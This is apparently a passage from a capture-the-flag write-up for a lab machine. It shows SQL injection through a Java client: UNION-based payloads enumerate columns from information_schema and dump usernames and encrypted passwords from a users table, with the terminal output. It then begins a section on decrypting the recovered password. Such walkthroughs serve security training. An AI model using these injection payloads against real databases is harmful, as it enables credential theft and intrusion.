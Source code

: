 ## Reading columns names from the users table_schema

- Syntax

```mysql
 1 or 1=1 UNION ALL SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='users'--
```

{% highlight sh %}
  ┌──(alienum㉿kali)-[~/Desktop]
  └─$ java -jar adroitclient.jar
  Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
  Enter the username :
  zeus
  Enter the password :
  god.thunder.olympus
  Options [ post | get ] :
  get
  Enter the phrase identifier :
  1 or 1=1 UNION ALL SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='users'--

  RESULT : haxor id password username CURRENT_CONNECTIONS TOTAL_CONNECTIONS USER
{% endhighlight %}

## Reading username and password from table users

- Syntax

```mysql
 1 or 1=1 UNION ALL SELECT NULL,concat(0x28,username,0x3a,password,0x29) FROM users--
```

{% highlight sh %}
  ┌──(alienum㉿kali)-[~/Desktop]
  └─$ java -jar adroitclient.jar
  Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
  Enter the username :
  zeus
  Enter the password :
  god.thunder.olympus
  Options [ post | get ] :
  get
  Enter the phrase identifier :
  1 or 1=1 UNION ALL SELECT NULL,concat(0x28,username,0x3a,password,0x29) FROM users--

  RESULT : haxor (writer:l4A<REDACTED>Kr015+OEC3aOfdrWafSqwpY=)
{% endhighlight %}

## Decrypting the password ( AES encryption )

username : `writer`
encrypted password : `l4A<REDACTED>Kr015+OEC3aOfdrWafSqwpY=`

